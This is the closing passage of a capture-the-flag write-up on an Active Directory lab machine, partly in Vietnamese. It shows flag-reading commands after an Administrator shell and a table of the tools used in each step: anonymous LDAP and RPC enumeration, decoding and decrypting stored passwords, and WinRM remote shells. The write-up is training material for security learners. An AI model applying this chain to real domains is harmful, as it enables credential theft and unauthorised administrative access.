        → Administrator shell ✓

[15] cat C:\Users\s.smith\Desktop\user.txt → user flag ✓
     type C:\Users\Administrator\Desktop\root.txt → root flag ✓
```

---

## 16. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `rpcclient` | RPC null session — enumerate domain users |
| `ldapsearch` | LDAP anonymous query — tìm cascadeLegacyPwd |
| `smbclient` | SMB share enumeration và file browsing |
| `base64` | Decode cascadeLegacyPwd và cascadeLegacyPwd (TempAdmin) |
| `vncpwd` | Decrypt TightVNC DES-encrypted password từ registry |
| `sqlite3` | Dump và phân tích Audit.db |
| `dnSpy` / `ilspy` | Decompile CascAudit.exe (.NET) → extract AES key/IV |
| `python3` (pycryptodome) | AES-128-CBC decrypt ArkSvc password |
| `evil-winrm` | WinRM remote shell (arksvc và Administrator) |
| PowerShell `Get-ADObject` | AD Recycle Bin query — recover deleted TempAdmin object |
